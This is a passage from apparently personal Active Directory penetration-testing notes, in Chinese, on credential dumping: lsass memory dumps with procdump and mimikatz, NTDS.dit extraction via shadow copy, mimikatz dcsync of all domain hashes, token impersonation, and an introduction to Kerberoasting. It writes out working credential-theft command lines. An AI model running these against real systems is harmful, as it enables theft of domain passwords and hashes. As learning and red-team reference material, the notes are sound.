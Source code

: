 #### Procdump + Mimikatz

```shell
procdump64.exe  -accepteula -ma lsass.exe lsass.dmp
mimikatz.exe  "sekurlsa::minidump lsass.dmp" "sekurlsa::logonPasswords  full" exit
```

没有明文的原因还是 kb2871997（**之前我还以为这个只和PTH有关，学到啦**）。kb2871997补丁会删除除了wdigest ssp以外其他ssp的明文凭据，但对于wdigest ssp只能选择禁用。用户可以选择将`HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest\UseLogonCredential`更改为0来禁用。
[\*] 注意：这一段直接粘贴复制的 ~~偶尔搬运一下，方便理解~~

### 域Hash

> 这部分没有手动实现过，所以这里慢慢看，复现一下。导出的方法也很多，这里先上Wing仔的[文章](https://xz.aliyun.com/t/2527)，我就不一一复现了...用两个好用的！

在拿到域控权限后，有时候需要导出域内所有主机的Hash，对应的文件为 `C:\Windows\NTDS\NTDS.dit` 导出所有用户的hash，但是这个是一直被占用的，如果直接去复制会抛出如下错误：
![image](https://github.com/chriskaliX/AD-Pentest-Notes/raw/master/imgs/ntds.png)

这时候需要用到**卷影备份**的方法

#### ntdsutil + ntdsdump

直接用本地自带的工具 `ntdsutil`，操作如下
![image](https://github.com/chriskaliX/AD-Pentest-Notes/raw/master/imgs/ntdsutil.png)

然后再使用 `ntdsdump.exe` (也有看到直接用的，我只有这样成功...)
![image](https://github.com/chriskaliX/AD-Pentest-Notes/raw/master/imgs/ntdsdump.png)

#### Mimikatz工具

> 万能的猕猴桃

为啥用Mimikatz能直接dump呢，搬运一下wing仔翻译的文章：

> Mimikatz有一个功能（dcsync），它利用目录复制服务（DRS）从NTDS.DIT文件中检索密码哈希值。这样子解决了需要直接使用域控制器进行身份验证的需要，因为它可以从域管理员的上下文中获得执行权限。因此它是红队的基本操作，因为它不那么复杂。

`mimikatz.exe privilege::debug "lsadump::dcsync /domain:xxcom.local /all /csv" exit`

![image](https://github.com/chriskaliX/AD-Pentest-Notes/raw/master/imgs/mimikatz_ntds.png)

### Access Token

> 基础篇过了一次，实操的时候摸过了，用 msf 下的 incognito。getsystem也是去搜寻可用的令牌进行提权

### Kerberosting

> 这个之前看到，但是没有认真看一下

#### 相关原理

因为看过Kerberos协议，结合蓝军文章可以简单理解。在Kerberos第二阶段（即与TGS通信）完成时会返回一张ST，ST使用Server端的（当时我说是NLTM Hash）密码进行加密。当 Kerberos 协议设置票据为 **RC4** 方式时，我们就可以通过爆破在Client端获取的票据ST，获取对应的Server端的密码。（学到了，很开心）
